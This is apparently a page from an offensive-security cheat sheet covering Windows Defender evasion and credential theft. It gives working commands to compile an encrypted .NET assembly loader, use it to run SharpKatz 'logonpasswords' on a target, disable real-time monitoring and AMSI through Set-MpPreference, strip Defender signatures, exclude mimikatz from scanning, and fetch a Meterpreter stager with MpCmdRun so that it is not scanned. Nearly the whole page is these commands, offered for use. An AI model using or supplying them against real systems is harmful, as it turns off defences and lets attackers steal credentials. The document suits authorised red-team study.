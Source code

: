 Dependencies:

```text
Nim > nimble install winim nimcrypto
```

Compile on Linux:

```text
$ nim c encrypt_assembly.nim
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passc=-flto --passl=-flto encrypted_assembly_loader.nim
```

Create encrypted base64 file:

```text
$ ./encrypted_assembly_loader 'Passw0rd!' SharpKatz.exe b64.txt
```

Decrypt and run it on target:

```text
Nim > .\encrypted_assembly_loader.exe Passw0rd! b64.txt --Command logonpasswords
```

## Defender

* [https://github.com/swagkarna/Defeat-Defender/blob/main/Defeat-Defender.bat](https://github.com/swagkarna/Defeat-Defender/blob/main/Defeat-Defender.bat)

Disable real-time protection \(proactive\):

```text
PS > Set-MpPreference -DisableRealTimeMonitoring $true
```

Disable scanning all downloaded files and attachments, disable AMSI \(reactive\):

```text
PS > Set-MpPreference -DisableIOAVProtection $true
```

Remove signatures \(if Internet connection is present, they will be downloaded again\):

```text
PS > "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
Or
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

Add path to exclusions:

```text
PS > $mimi = "C:\Users\snovvcrash\music\mimi\x64\mimikatz.exe"
PS > Add-MpPreference -ExclusionPath $mimi -AttackSurfaceReductionOnlyExclusions $mimi
```

Download stager without triggering Defender to scan it:

```text
PS > "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```
